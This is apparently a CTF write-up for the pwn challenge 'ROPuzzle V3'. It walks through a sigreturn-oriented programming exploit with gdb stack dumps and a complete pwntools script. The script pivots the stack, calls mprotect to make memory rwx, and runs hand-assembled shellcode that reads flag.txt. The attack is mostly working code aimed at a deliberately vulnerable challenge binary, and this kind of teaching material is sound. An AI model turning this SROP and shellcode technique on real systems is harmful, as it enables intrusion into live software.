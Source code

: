 # ROPuzzle V3
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
```
placeholder - problem hidden
```

## Solution
The binary is very small. We have a buffer overflow, but no gadgets and no libc to jump to.

Actually, we do have a `syscall` gadget available. This can let us do a `sigreturn` syscall, giving us complete code execution - as long as we can set `rax` to 15, the syscall number for sigreturn. However, this doesn't seem possible, since there are no rax gadgets. Luckily, it is, because rax is not cleared after syscalls. And the read syscall returns the number of bytes read, in rax. So if we only get the program to read in 15 bytes, then rax will be set up properly.

However, 15 bytes is too little to do anything with. We can overcome this by reading in our full input, returning back to the start of the get_input function, reading 15 bytes, returning to the syscall gadget, giving us a sigreturn. Success!!

This is wonderful and all, but we still need to be able to either get a shell or print the flag after the sigreturn. Trying to get a shell won't work in Alpine linux (the distro used in the challenge), so our only option is to print the flag, which will require us to enter shellcode, which means we need a segment in the program that allows read, write, and execute.

Then, our exploit is:

1. get_input 1: we overwrite the return address to the start of get_input so that we can set up the rax register later, and also write the sigreturn frame (used later) onto the stack. The sigreturn frame will setup a `mprotect(0x400000, 0x1000, 7)` call (0x400000 is a safe location), and also shift the stack to somewhere in the 0x400000 range.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x7fff1498c638 --> 0x40100a (<get_input>: sub    rsp,0x8)     <== overwritten return address
0008| 0x7fff1498c640 --> 0x0                                        <== 0 (empty on purpose, we overwrite this step 2)
0016| 0x7fff1498c648 --> 0x0                                        <=\
0024| 0x7fff1498c650 --> 0x0                                        <=| 
0032| 0x7fff1498c658 --> 0x0                                        <== the sigreturn
0040| 0x7fff1498c660 --> 0x0                                        <== frame
0048| 0x7fff1498c668 --> 0x0                                        <=|
0056| 0x7fff1498c670 --> 0x0                                        <=/
[------------------------------------------------------------------------------]
```
</details>

2. get_input 2: Write 15 bytes, so that rax is set to 15 (syscall number for sigreturn). We should also overwrite the return address again so that it points to the `syscall` instruction in get_input.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x7fff1498c640 --> 0x401020 (<get_input+22>:      syscall)    <== overwritten return address
0008| 0x7fff1498c648 --> 0x0                                        <=\
0016| 0x7fff1498c650 --> 0x0                                        <=|
0024| 0x7fff1498c658 --> 0x0                                        <=|
0032| 0x7fff1498c660 --> 0x0                                        <== sigreturn frame
0040| 0x7fff1498c668 --> 0x0                                        <=|
0048| 0x7fff1498c670 --> 0x0                                        <=|
0056| 0x7fff1498c678 --> 0x0                                        <=/
[------------------------------------------------------------------------------]
```
</details>

3. Program returns to syscall and does the sigreturn. The registers are now set up for the mprotect syscall.

<details>
<summary>What the stack looks like after this step</summary>

```
[----------------------------------registers-----------------------------------]
RAX: 0xa ('\n')
RBX: 0x0 
RCX: 0x0 
RDX: 0x7 
RSI: 0x1000 
RDI: 0x400000 --> 0x10102464c457f 
RBP: 0x0 
RSP: 0x400010 --> 0x1003e0002 
RIP: 0x401020 (<get_input+22>:  syscall)
R8 : 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x0 
R12: 0x0 
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401013 <get_input+9>:      mov    edi,0x0
   0x401018 <get_input+14>:     mov    rsi,rsp
   0x40101b <get_input+17>:     mov    edx,0x1000
=> 0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
   0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
Guessed arguments:
arg[0]: 0x400000 --> 0x10102464c457f 
arg[1]: 0x1000 
arg[2]: 0x7 
[------------------------------------stack-------------------------------------]
0000| 0x400010 --> 0x1003e0002 
0008| 0x400018 --> 0x401000 (<_start>:  call   0x40100a <get_input>)
0016| 0x400020 --> 0x40 ('@')
0024| 0x400028 --> 0x1150 
0032| 0x400030 --> 0x38004000000000 ('')
0040| 0x400038 --> 0x4000500400002 
0048| 0x400040 --> 0x400000001 
0056| 0x400048 --> 0x0 
[------------------------------------------------------------------------------]
```
</details>

4. The mprotect is called, creating a section of `rwx` memory. Then, we return to the main address conveniently in our safe space.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x400018 --> 0x401000 (<_start>:  call   0x40100a <get_input>)
0008| 0x400020 --> 0x40 ('@')
0016| 0x400028 --> 0x1150 
0024| 0x400030 --> 0x38004000000000 ('')
0032| 0x400038 --> 0x4000500400002 
0040| 0x400040 --> 0x400000001 
0048| 0x400048 --> 0x0 
0056| 0x400050 --> 0x400000 --> 0x10102464c457f 
[------------------------------------------------------------------------------]
```
</details>
    
5. Read input into our new stack at 0x400000 and return to our shellcode in there

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x401018 <get_input+14>:     mov    rsi,rsp
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
=> 0x401022 <get_input+24>:     add    rsp,0x8
   0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall
[------------------------------------stack-------------------------------------]
0000| 0x400010 ("flag.txt ")                                <== the string "flag.txt" (not null terminated, is a problem)
0008| 0x400018 --> 0x400020 --> 0x400018250489c031          <== our fake return address, return to 0x400020
0016| 0x400020 --> 0x400018250489c031                       <== shellcode, starting here, that prints the flag
0024| 0x400028 --> 0x10bf00000002b800 
0032| 0x400030 --> 0xfd231f631004000 
0040| 0x400038 --> 0x500bec031c78905 
0048| 0x400040 --> 0xf00000064ba0040 
0056| 0x400048 --> 0x1bf00000001b805 
[------------------------------------------------------------------------------]
```
</details>

```py
from pwn import *

context.arch = 'amd64'

if args.LOCAL:
    p = process("./main")
else:
    p = remote("ctf.joshl.ca", 5000)

# Important addresses
input_addr = 0x000000000040100a
syscall = 0x401020

# Payload 1: 8 bytes garbage + return address + garbage + sigreturn frame
pay = b'A'*8 + p64(input_addr) + p64(0)
frame = SigreturnFrame() # mprotect(0x400000, 0x1000, 7)
frame.rax = 10
frame.rdi = 0x400000
frame.rsi = 0x1000
frame.rdx = 7
frame.rsp = 0x400010        # our new stack exists here, because this address
                            # contains the address of main, which we'll need to
                            # return to
frame.rip = syscall

pay += bytes(frame)

p.send(pay)
with open('in', 'wb') as f:
    f.write(pay)

pause()

# At this point, the payload 1 is read, the program jumped back to the start of read_input, and our full payload is on the stack

# Payload 2: 15 bytes, make sure we overwrite the return pointer back to syscall
pay = b'A'*8 + p64(syscall)
pay = pay[:15]

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()

# At this point, rax = 15, we return to the syscall, which performs the sigreturn syscall, returning back to the
# sigreturn syscall (controlled by frame.rip), making the mprotect syscall, then returning into the address pointed
# to by frame.rsp (start of main), which calls read_input again - but now the stack is at our special location.

# Payload 3:
# 0x400010: "flag.txt"
# 0x400018: overwriting the return address to go to 0x400020
# 0x400020: our shellcode
# The first and second instructions are important because we need to make sure the first byte after "flag.txt"
# is a null byte, but it contains 0x400020 right now. To fix this, we can just move 0 to 0x400018.
"""
   0:   31 c0                   xor    eax, eax
   2:   89 04 25 18 00 40 00    mov    dword[0x400018], eax
   9:   b8 02 00 00 00          mov    eax, 0x2
   e:   bf 10 00 40 00          mov    edi, 0x400010
  13:   31 f6                   xor    esi, esi
  15:   31 d2                   xor    edx, edx
  17:   0f 05                   syscall                 ; int fd = open("flag.txt", "r", "r")
  19:   89 c7                   mov    edi, eax
  1b:   31 c0                   xor    eax, eax
  1d:   be 00 05 40 00          mov    esi, 0x400500    ; known safe address
  22:   ba 64 00 00 00          mov    edx, 0x64
  27:   0f 05                   syscall                 ; read(fd, 0x400500, 0x64)
  29:   b8 01 00 00 00          mov    eax, 0x1
  2e:   bf 01 00 00 00          mov    edi, 0x1
  33:   be 00 05 40 00          mov    esi, 0x400500
  38:   ba 64 00 00 00          mov    edx, 0x64
  3d:   0f 05                   syscall                 ; write(stdout, 0x400500, 0x64)
"""
pay = b'flag.txt' + p64(0x400020) + b'\x31\xc0\x89\x04\x25\x18\x00\x40\x00\xb8\x02\x00\x00\x00\xbf\x10\x00\x40\x00\x31\xf6\x31\xd2\x0f\x05\x89\xc7\x31\xc0\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05'

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()
p.interactive()
```

Flag: `CTF{Best_use_of_srop_i_have_seen_so_far!}`
